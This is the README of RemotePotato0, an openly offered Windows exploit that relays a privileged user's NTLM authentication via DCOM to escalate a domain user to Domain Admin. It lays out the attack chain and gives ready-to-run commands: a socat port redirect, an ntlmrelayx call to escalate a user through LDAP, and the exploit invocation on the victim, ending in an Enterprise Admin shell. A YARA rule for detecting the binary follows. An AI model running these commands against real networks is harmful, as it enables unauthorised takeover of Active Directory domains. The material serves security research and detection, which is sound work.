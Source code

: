 # RemotePotato0
Just another "Won't Fix" Windows Privilege Escalation from User to Domain Admin.

RemotePotato0 is an exploit that allows you to escalate your privileges from a generic User to Domain Admin. 

Briefly:

It abuses the DCOM activation service and trigger an NTLM authentication of the user currently logged on in the target machine.
It is required you have a shell in session 0 (e.g. WinRm shell or SSH shell) and that a privileged user is logged on in the session 1 (e.g. a Domain Admin user).
Once the NTLM type1 is triggered we setup a cross protocol relay server that receive the privileged type1 message and relay it to a third resource by unpacking the RPC protocol and packing the authentication over HTTP. On the receiving end you can setup a further relay node (eg. ntlmrelayx) or relay directly to a privileged resource.

Full details at --> https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop

## Example

Attacker machine (10.0.0.11):

```
sudo socat tcp-listen:135,reuseaddr,fork tcp:10.0.0.11:1111 &
sudo ntlmrelayx.py -t ldap://10.0.0.10 --escalate-user winrm_user --no-wcf-server
```

Victim machine (10.0.0.20):

```
.\RemotePotato0.exe -r 10.0.0.20 -p 1111
```

Victim Domain Controller (10.0.0.10)

Enjoy shell (eg. psexec) as Enterprise Admin to the domain controller ;)

## Demo

<img src="demo.gif">

## Detection

Yara rule to detect RemotePotato0 binary:

```
rule SentinelOne_RemotePotato0_privesc {
    meta:
        author = "SentinelOne"
        description = "Detects RemotePotato0 binary"
        reference = "https://labs.sentinelone.com/relaying-potatoes-dce-rpc-ntlm-relay-eop"
        
    strings:
        $import1 = "CoGetInstanceFromIStorage"
        $istorage_clsid = "{00000306-0000-0000-c000-000000000046}" nocase wide ascii
        $meow_header = { 4d 45 4f 57 }
        $clsid1 = "{11111111-2222-3333-4444-555555555555}" nocase wide ascii
        $clsid2 = "{5167B42F-C111-47A1-ACC4-8EABE61B0B54}" nocase wide ascii
        
    condition:        
        (uint16(0) == 0x5A4D) and $import1 and $istorage_clsid and $meow_header and 1 of ($clsid*)
}
```

## Authors

* [Antonio Cocomazzi](https://twitter.com/splinter_code)
* [Andrea Pierini](https://twitter.com/decoder_it)

## Credits

* [Impacket](https://github.com/SecureAuthCorp/impacket)
